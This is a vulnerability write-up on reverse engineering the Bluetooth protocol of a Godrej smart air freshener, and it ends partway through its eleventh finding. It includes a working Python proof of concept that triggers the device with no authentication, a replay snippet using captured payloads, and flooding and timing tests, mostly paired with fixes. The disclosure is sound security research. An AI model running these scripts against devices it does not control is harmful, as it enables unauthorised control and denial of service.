









## The Device

I recently picked up a **Godrej Aer Smart Matic** air freshener for home use. It looked like any other Bluetooth-controlled IoT gadget - small, convenient, and marketed as "smart." The Bluetooth address printed on the box was `A4:C1:38:B5:6C:5C`, and the chipset inside turned out to be a **TelinkSemico BLE SoC** running firmware `3.0.6-T1`.

Before I even set it up properly, my hacker brain kicked in:

> *"What is this thing actually sending over Bluetooth? Does it authenticate me before accepting commands? Can I replay packets? What happens if I flood it?"*

This post documents everything I found - from the first packet capture to building a full Python pentest suite that tests 18 vulnerability checks across 11 vulnerability classes. **No hardware teardown. No soldering. Nothing except an Android phone, Wireshark, and Python.**

---

## Step 1 - Capturing Traffic with Android's HCI Snoop Log

Every Android phone can log its own BLE communication sessions. This is not passive sniffing - it captures packets that **your phone sends and receives** while connected to a target device. That is exactly what we need to reverse engineer a proprietary BLE protocol.

> **True passive sniffers** (Ubertooth One, nRF52840 dongle + Wireshark) can capture traffic between *other* devices without joining the connection. Android's btsnoop cannot do that - it only sees your own phone's traffic.

### Enabling btsnoop on Android

```
Developer Options → Enable Bluetooth HCI Snoop Log
```

Once enabled, Android logs every HCI packet at the boundary between the Bluetooth software stack and the radio hardware - every ATT read, write, notification, and response - to:
```
/data/log/bt/btsnoop_hci.log
```

> **HCI** (Host Controller Interface) sits between the Android Bluetooth stack and the radio chip. Every command, event, ATT read and write passes through here and Android logs all of it verbatim.

I used the official app (`com.godrejcp.aermatic`) for a normal session, then captured the log via `adb bugreport`. On a non-root phone, the bugreport zip is the cleanest way to get at `/data/log/bt/`:

```bash
adb bugreport bugreport.zip
unzip bugreport.zip -d dumpstate
cd dumpstate/dumpstate-2026-01-14-00-35-13/FS/data/log/bt
ls
# btsnoop_hci.log  btsnoop_hci.log.last
```

`btsnoop_hci.log` is the active log; `btsnoop_hci.log.last` is the previous rotation. Both are real BTSnoop v1 captures - copy them out and analyse with Wireshark / tshark.

The file: **1.1 MB**, **BTSnoop v1 format**, **HCI UART H4** datalink type.

```bash
$ file btsnoop_hci.log
btsnoop_hci.log: BTSnoop version 1, HCI UART (H4)

$ tshark -r btsnoop_hci.log | wc -l
29370

$ tshark -r btsnoop_hci.log -T fields -e frame.time_relative | tail -1
12105.0     # 3.4 hours of traffic
```

---

## Step 2 - What Is a BTSnoop Log?

The BTSnoop format is a binary capture format for Bluetooth HCI traffic. Think Wireshark `.pcap` but for Bluetooth's lowest layers.

```
File Header (16 bytes):
  Magic:        "btsnoop\0"
  Version:      1
  Datalink:     1002 = HCI UART H4

Per-packet Record:
  [4B] Original Length
  [4B] Included Length
  [4B] Packet Flags   0=Host→Controller  1=Controller→Host
  [4B] Cumulative Drops
  [8B] Timestamp (microseconds since Jan 1 0000)
  [N]  Packet Data
```

The direction flag is everything - it tells you who sent what, allowing you to reconstruct the full bidirectional conversation.

---

## The BLE Protocol Stack - Where the Action Happens

Before diving into the traffic, it helps to understand which layer does what. BLE stacks six layers on top of the radio:



| Layer | What it does | Where vulnerabilities live |
|-------|-------------|---------------------------|
| **GAP** | Advertisement, scanning, connection | Static MAC (VULN-09), unfiltered scan |
| **SMP** | Pairing, key exchange, bonding | No pairing (VULN-02), SweynTooth CVEs |
| **L2CAP** | Multiplexes ATT + SMP channels | Raw socket attacks |
| **ATT** | Read / Write / Notify operations | Unauth reads (VULN-01), WnR flood (VULN-07) |
| **GATT** | Service and characteristic model | Unauthenticated control (VULN-05), OTA (OTA-01) |

The Smart Matic fails at **every single layer** above the physical radio.

---

## How the Capture Pipeline Works



---

## Step 3 - Opening It in Wireshark

Wireshark reads BTSnoop logs natively. The first thing I checked:

```wireshark
# Filter for all SMP traffic (Security Manager Protocol)
btl2cap.cid == 0x0006

# Result: 0 packets
```

**Zero SMP frames in 12,105 seconds.** That is the most important single data point in the entire capture. It means zero pairing requests, zero key exchanges, zero authentication of any kind - ever. The device accepts any BLE connection with no security checks.

Next, filter for the target device:
```wireshark
bluetooth.addr == A4:C1:38:B5:6C:5C
```

ATT/GATT traffic to the device begins at frame **28052** (timestamp 11,907s). Everything before that is 3.3 hours of HCI-layer connection spray.

---

## Step 4 - GATT Service Discovery

The first thing the official app does on connection is enumerate all services and characteristics using `Read By Group Type` and `Read By Type` ATT requests. The full confirmed service map:

```
Handle  UUID                                  Properties
──────  ────────────────────────────────────  ──────────────────────────────
0x0001  Primary Service (Unknown)
0x0002  Characteristic Value                  Read, Write Without Response   ← Telink OTA
0x0005  Primary Service: Nordic UART (6e400000)
0x0006  Characteristic Declaration
0x0007  UUID: 6e400001                        Notify, Read                   ← ALL acks from here
0x0008  Characteristic Declaration (NUS TX)
0x0009  UUID: 6e400002                        Notify, Write w/o Resp, Read
0x000a  CCCD for 0x0009                       Write
0x000b  Characteristic Declaration (NUS RX)
0x000c  UUID: 6e400003                        Notify, Write w/o Resp, Read   ← CMD IN (write here)
0x000d  CCCD for 0x000c                       Write
0x000e  Characteristic Declaration
0x000f  Unknown Characteristic                Notify, Write w/o Resp, Read
0x0010  CCCD for 0x000f                       Write
```

**Handle 0x0002** is a Telink OTA characteristic with `write-without-response` and no authentication gate - confirmed by live pentest. More on this under OTA-01.



The tshark command that produced this map:

```bash
tshark -r btsnoop_hci.log -Y "btatt" -V 2>/dev/null \
  | grep -E "Handle:|UUID:|Properties:|Characteristic"
```

---

## Step 5 - The Real Communication Sequence

By matching every `ATT Write Command (0x52)` to its `Handle Value Notification (0x1b)` response, I mapped the exact sequence the official app uses across two sessions:



Two findings from this sequence that are not obvious:

**1. All notifications come from handle `0x0007` (UUID `6e400001`)**  
Not from `0x0009` as the Nordic UART spec implies. Telink uses the NUS service UUID itself (`6e400001`) as a characteristic UUID and sources all responses from it. This is non-standard and caused significant debugging time.

**2. Zero CCCD writes in the entire 29,370-frame capture**  
Standard BLE requires the client to write `0x0001` to a CCCD before the peripheral sends notifications. The Smart Matic skips this entirely - it auto-notifies on connection. There is not a single `ATT_WRITE_REQ (0x12)` packet in the log.

```bash
# Verify: count all ATT Write Requests in entire capture
tshark -r btsnoop_hci.log -Y "btatt.opcode == 0x12" | wc -l
# Output: 0
```

---

## Step 6 - Reverse Engineering the CBOR Protocol

All communication uses **CBOR (Concise Binary Object Representation, RFC 7049)** encoded as indefinite-length maps. There is no encryption, no HMAC, no nonce, no sequence validation.

### How I Identified CBOR

The write payloads to handle `0x000c` start with `0xBF` and end with `0xFF`. That is the CBOR indefinite-length map marker pair. One `python3 -c "import cbor2; print(cbor2.loads(bytes.fromhex('...')))"`  call confirmed it.

```bash
# Extract all write payloads from handle 0x000c
tshark -r btsnoop_hci.log -Y "btatt.opcode==0x52 && btatt.handle==0x000c" \
  -T fields -e btatt.value

# Output sample:
# bf626d541866626d4e18986265501b0000000069ea3a8cff
# bf626d541868626d4e189a6272490aff
# bf626d54186b626d4e189dff
```

Feeding the first payload to Python:

```python
import cbor2
cbor2.loads(bytes.fromhex("bf626d541866626d4e18986265501b0000000069ea3a8c62745a39014962744400ff"))
# {'mT': 102, 'mN': 152, 'eP': 1745253516, 'tZ': 57, 'tD': 0}
```

`mT=102 (0x66)` - message type. `eP` - epoch timestamp. `tZ=57` - timezone offset 5.7h = IST. Protocol fully decoded.

### CBOR Wire Format Annotated

```
bf  62 6d 54  18 68  62 6d 4e  18 9a  62 72 49  00  ff
↑   ↑─────↑  ↑──↑   ↑─────↑  ↑──↑   ↑─────↑  ↑   ↑
│   key "mT" val 104 key "mN" val 154 key "rI" 0  end
│
└─ 0xBF = begin indefinite map
```



### Complete Message Type Table

| mT hex | mT dec | Direction | Name | Key Fields |
|--------|--------|-----------|------|-----------|
| 0x66 | 102 | Host → Device | TIME_SYNC | eP (epoch), tZ (tz), tD (dst) |
| 0x68 | 104 | Host → Device | CONTROL_CMD | rI (relay index) |
| 0x69 | 105 | Host → Device | RELAY_RESET | rR (bool: true) |
| 0x6b | 107 | Host → Device | POLL | - |
| 0x6c | 108 | Host → Device | UNKNOWN_6C | - |
| 0x6f | 111 | Host → Device | STATUS_REQ | - |
| 0x98 | 152 | Device → Host | TIME_ACK | ack (0xc8=200) |
| 0x9a | 154 | Device → Host | CTRL_ACK | ack (0xc8=200) |
| 0x9d | 157 | Device → Host | DEVICE_INFO | fV, bV, sV, cS, sn, sC, bn |
| 0x9f | 159 | Device → Host | STATUS_RESP | status counters |
| 0xa1 | 161 | Device → Host | UID_RESP | uID (8-byte unique ID) |

### The rI (Relay Index) Field - What It Actually Does

This matters for the attack. By measuring frequency and ACK RTT for each `rI` value in the capture:

| rI | Count | ACK RTT | Physical Meaning |
|----|-------|---------|-----------------|
| `0x00` (0) | **4×** | 10-1040 ms | **Manual spray - immediate one-shot** |
| `0x0a` (10) | 1× | 1150 ms | Set auto-interval to 10 minutes |
| `0x14` (20) | 1× | 2910 ms | Set auto-interval to 20 minutes |
| `0x28` (40) | 1× | 2160 ms | Set auto-interval to 40 minutes |

`rI=0` is the **manual spray trigger**. Values 10/20/40 configure the automatic spray timer. All return `ack=0xC8 (200 = OK)`. This distinction matters enormously - spraying with `rI=10` just sets a timer; spraying with `rI=0` physically activates the device each time.

### Decoded Real Payloads

```
[CONTROL_CMD rI=0x0a - frame 28437, time 11947.19s]
Hex:    bf 62 6d54 18 68  62 6d4e 18 9a  62 7249 0a  ff
CBOR:   {mT:104, mN:154, rI:10}
Effect: Set auto-spray interval to 10 minutes
ACK:    {mT:154, mN:154, ack:200}   RTT: 1150ms

[CONTROL_CMD rI=0x00 - frame 28555, time 11960.92s]
Hex:    bf 62 6d54 18 68  62 6d4e 18 9a  62 7249 00  ff
CBOR:   {mT:104, mN:154, rI:0}
Effect: Immediate manual spray
ACK:    {mT:154, mN:154, ack:200}   RTT: 10ms

[TIME_SYNC - frame 28182, time 11919.89s]
CBOR:   {mT:102, mN:152, eP:1745253516, tZ:57, tD:0}
Effect: Sync device clock to IST (UTC+5:30)
ACK:    {mT:152, mN:152, ack:200}   RTT: 862ms

[DEVICE_INFO - frame 28220, time 11931.28s (no auth required)]
CBOR:   {mT:157, mN:157, ack:200, bV:2506, fV:"3.0.6-T1",
         cS:133, sn:[2,0,0,2049], sV:"101110",
         bn:[1,0,0,157], sC:[0,0,0], sc:[0,0,0]}
Leaked: Firmware version, build number, serial, sensor readings
```

---

## Step 7 - The 11 Vulnerabilities



---

### VULN-01 - No BLE Link Encryption
**Severity: CRITICAL** | CWE-319 | CVSS:3.1 AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N (8.1)

Zero `HCI_LE_Enable_Encryption` commands appear in 29,370 packets. Every GATT read, write, and notification is in plaintext over the air. The live pentest read **5 characteristics** with zero encryption:

```
Handle 0x0002: 00            ← OTA characteristic value
Handle 0x000e: 0000
Handle 0x000b: 0000
Handle 0x0008: 0000
Handle 0x0006: 0000
```

Any BLE sniffer (a `~$15 nRF52840 dongle + Wireshark`) within 10 metres captures and decodes every command, response, and device identity field.

**Fix:** Enable LE Secure Connections (`HCI_LE_Set_Event_Mask` + SMP pairing exchange with AES-CCM link-layer encryption).

---

### VULN-02 - No Pairing / No Authentication
**Severity: CRITICAL** | CWE-306 | CVSS:3.1 AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H (8.8)

Zero SMP events in 12,105 seconds. No Pairing Request, no Pairing Response, no key distribution, no bonding. Any Bluetooth device within range connects and has full control immediately.

```bash
# Verify: count SMP frames in entire capture
tshark -r btsnoop_hci.log -Y "btl2cap.cid == 0x0006" | wc -l
# Output: 0
```

**Fix:** Implement SMP LE Secure Connections with MITM protection and bonding. Minimum: LE Legacy with static passkey.

---

### VULN-03 - Replay Attack (No Nonce, No HMAC)
**Severity: CRITICAL** | CWE-294 | CVSS:3.1 AV:A/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N (6.5)

The CBOR protocol has no message authentication code, no cryptographic nonce, and no strict sequence counter validation. Captured packets replay identically:

```python
# Payload captured from btsnoop - still valid months later
CAPTURED_CONTROL = bytes.fromhex("bf626d541868626d4e189a62724900ff")
# {mT:104, mN:154, rI:0} → manual spray trigger

# Replay at any future time:
await client.write_gatt_char(0x000c, CAPTURED_CONTROL, response=False)
# Device responds: {mT:154, mN:154, ack:200}
```

**Fix:** Add `HMAC-SHA256(payload || nonce || timestamp)` to every command. Implement a monotonic sequence counter the device rejects if out of order.

---

### VULN-04 - GATT Discovery Spray (DoS)
**Severity: CRITICAL** | CWE-400 | CVSS:3.1 AV:A/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H (6.5)

Every BLE connection - even from an unknown, unpaired device - triggers a full GATT re-enumeration. The device performs ~20 ATT operations (Read By Group, Read By Type, Find Info) on every connect with no caching, no rate limiting, no lockout.

```
Evidence from btsnoop:
  2,776  HCI Create Connection commands
  2,765  Enhanced Connection Complete events
  5,541  total connection events in 12,105 seconds
  Rate:  13.7 connections/minute sustained for 3.4 hours
```

Live pentest results:
```
2 full discoveries completed in 1.75s
Average per discovery: 874ms  (min 694ms, max 1054ms)
Extrapolated: 69 full enumerations/minute
No rate limiting, no lockout, no authentication gate observed
```

**Fix:** Enable GATT Caching (Bluetooth 5.1 feature). Require bonding before service discovery. Rate-limit connections to 3/min per source address.

---

### VULN-05 - Unauthenticated Control Commands
**Severity: CRITICAL** | CWE-862 | CVSS:3.1 AV:A/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N (6.5)

`CONTROL_CMD (mT=0x68)` is accepted with no session token, no challenge-response, and no prior authentication. Full proof of concept:

```python
import asyncio
from bleak import BleakClient
import struct

MAC    = "A4:C1:38:B5:6C:5C"
H_WRITE = 0x000c   # NUS RX / CMD IN

def cbor_control(ri):
    # {mT:104, mN:1, rI:ri}
    return b'\xbf\x62mT\x18\x68\x62mN\x01\x62rI' + bytes([ri]) + b'\xff'

async def spray():
    async with BleakClient(MAC) as c:
        # TIME_SYNC first (app init sequence)
        ts = b'\xbf\x62mT\x18\x66\x62mN\x01\x62eP\x1a' \
             + struct.pack('>I', int(__import__('time').time())) \
             + b'\x62tZ\x18\x39\x62tD\x00\xff'
        await c.write_gatt_char(H_WRITE, ts, response=False)
        await asyncio.sleep(1.5)
        # rI=0 = immediate manual spray
        await c.write_gatt_char(H_WRITE, cbor_control(0), response=False)

asyncio.run(spray())
```

Total time from cold start to physical spray: **under 3 seconds**. Zero credentials required.

---

### VULN-06 - Device Info Exposed Without Auth
**Severity: HIGH** | CWE-200 | CVSS:3.1 AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N (6.5)

Sending `POLL (mT=0x6b)` returns the full device fingerprint in plaintext, no authentication:

```
fV  = "3.0.6-T1"              ← exact firmware version string
bV  = 2506                    ← build number (0x09CA)
sV  = "101110"                ← serial/version code
uID = 0x0000019b9a3aeb2b      ← permanent 8-byte unique identifier
cS  = 133                     ← configuration state byte
sn  = [2, 0, 0, 2049]        ← sensor readings array
sC  = [0, 0, 0]              ← status counters
bn  = [1, 0, 0, 157]        ← base node array
```

An attacker uses `uID` to track the device even if the MAC address were rotated, and uses `fV="3.0.6-T1"` to look up known vulnerabilities for that exact SDK version.

---

### VULN-07 - Write Without Response Flooding
**Severity: HIGH** | CWE-345 | CVSS:3.1 AV:A/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:H (8.1)

All control commands use `ATT Write Command (opcode 0x52)` - the WriteWithoutResponse variant. There is no ATT-layer acknowledgment, no error response for malformed data, and no backpressure. Live pentest achieved:

```
Rate:      19.7 commands/second
Duration:  ~1 second for 20 commands
Errors:    0
ACK count: 0 (device does not echo WriteWithoutResponse)
```

**Fix:** Switch critical commands to `ATT Write Request (0x12)` which requires a `Write Response (0x13)` - this provides backpressure and confirmation. Implement application-level acknowledgment validation.

---

### VULN-08 - Timing Oracle on GATT Responses
**Severity: HIGH** | CWE-208

Observable timing differences between valid and invalid handle reads create a side-channel:

```
Valid read RTT (20 samples, handle 0x0009):
  avg=1410ms  min=30ms  max=1510ms  σ=325ms

Error Response (invalid handle):
  avg=77-100ms

Poll response RTT:
  avg varies by device state
```

The σ of 325ms on valid reads, combined with the sub-100ms error responses, allows an attacker to map the entire valid handle space without brute force. Handles responding within 77-100ms are invalid; handles taking 78-1510ms are valid.

---

### VULN-09 - Static MAC Address (No BLE Privacy)
**Severity: MEDIUM** | CWE-359

The device advertises with its static public MAC `A4:C1:38:B5:6C:5C` (OUI: TelinkSemico) in every advertisement frame. No Resolvable Private Address (RPA) rotation. Live pentest: visible in **3/3 passive scans** at consistent **-79 dBm RSSI**.

A passive observer can track the device's location, usage frequency, and owner movement patterns indefinitely from MAC alone.

**Fix:** Enable BLE Privacy Mode (Bluetooth 4.2+). Use Resolvable Private Addresses with IRK rotation every 15 minutes.

---

### VULN-10 - Vendor Command Channel
**Severity: MEDIUM** | CWE-912

HCI `Vendor Command 0xFD59` appears at frames 29367-29370, returning a 23-byte response from the Telink controller. Vendor commands bypass the standard BLE security model and may expose debug/backdoor functionality.

CBOR probe test sent 17 undocumented `mT` values (0x01-0x0a, 0x50, 0x51, 0x7f, 0x80, 0xf0, 0xfe, 0xff) - zero responses, but the HCI vendor channel exists at the controller level regardless.

---

### VULN-11 - MTU Boundary / CBOR Parser Fuzzing
**Severity: MEDIUM** | CWE-120

MTU negotiated to **185 bytes** (confirmed from MTU Exchange at frames 28137-28139). The largest legitimate payload is 99 bytes - leaving 86 bytes of headroom. The pentest sent 16 fuzz cases:

```
